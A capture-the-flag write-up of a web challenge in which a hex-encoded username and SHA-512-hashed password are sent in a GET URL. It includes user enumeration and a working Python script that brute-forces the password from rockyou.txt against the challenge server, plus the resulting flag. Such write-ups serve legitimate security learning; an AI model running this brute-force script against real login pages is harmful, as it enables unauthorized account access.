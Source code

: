 # Initial Problem Statement
```
Intern season is up again and our new intern Alex had to do a simple login page. 
Not only the login page is not working properly, it is also highly insecure...
```
# Initial Exploration
### Inspecting the target webserver at: 34.159.78.10:30308
We can see a login page where we can naturally attempt a common user-pass combination like admin:admin.   
After that we are redirected to a blank page but the URI is slightly modified with a weird version of 
our login information:

```
http://34.159.78.10:30308/auth?username=61646d696e&password=c7ad44cbad762a5da0a452f9e854fdc1e0e7a52a38015f23f3eab1d80b931dd472634dfac71cd34ebc35d16ab7fb8a90c81f975113d6c7538dc69dd8de9077ec
```
From the URL we can see that:  
username = admin = 61646d696e  
password = admin = c7ad44cbad762a5da0a452f9e854fdc1e0e7a52a38015f23f3eab1d80b931dd472634dfac71cd34ebc35d16ab7fb8a90c81f975113d6c7538dc69dd8de9077ec  

The username appears to be hex encoded and hash-identifier suggests that the password is encoded using SHA-512.

#### Inspecting the source code of the login form to see how it works:
```html
<h1>ADMIN PANEL</h1>
<form method="post" action="/login">
    <label for="name">User name</label>
    <input type="text" id="name" name="name">
    <label for="password">Password</label>
    <input type="password" id="password" name="password">
    <button type="submit">Login</button>
</form>
```
The parameter we see in the page source for the first field is called "name" but in the request we made it's called "username"...

# Finding our way to the flag
### Altering the original request

If we try to change the request's "username" parameter into "name" we get an interesting response: **"Invalid user"**
```
http://34.159.78.10:30308/auth?name=61646d696e&password=c7ad44cbad762a5da0a452f9e854fdc1e0e7a52a38015f23f3eab1d80b931dd472634dfac71cd34ebc35d16ab7fb8a90c81f975113d6c7538dc69dd8de9077ec
```
So we must think of an user and since admin doesn't appear to be valid... why not try Alex (hex encoded: 416c6578) after all he designed this page (since he's mentioned in the problem statement, pay attention to the capital 'A').  
The response changed to **"Invalid password"** so we must be on the right track.
```
http://34.159.78.10:30308/auth?name=416c6578&password=b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86
```

### Cracking the password
For this I created a simple python script to send custom requests with passwords from *rockyou.txt* until we find the right one:
```py
#!/usr/bin/python3
import requests
from pwnlib.util.hashes import sha512sumhex

S = requests.Session()
F = open("/usr/share/wordlists/rockyou.txt", "r")

for p in F:
	sha512 = sha512sumhex(p.strip().encode())
	#print(sha512)
	URL = "http://34.159.78.10:30308/auth?name=416c6578&password=" + sha512
	Response = S.get(URL)
	if(Response.text != "Invalid password"):
		print("Gottem: " + Response.text)
		break
```
After running the script we get some HTML output and also the flag!! 
```html
Gottem: 
<h1>Internal</h1>                                                                                                                                                                  
<hr>                                                                                                                                                                               
<p> Talk about insecure and broken login pages... CTF{bf3dd66e1c8e91683070d17ec2afb13375488eee109a0724bb872c9d70b7cc3d}                                                            
</p>                                                                                                                                                                               
<form method="post" action="/logout">                                                                                                                                              
    <button type="submit">Logout</button>                                                                                                                                          
</form>
``` 
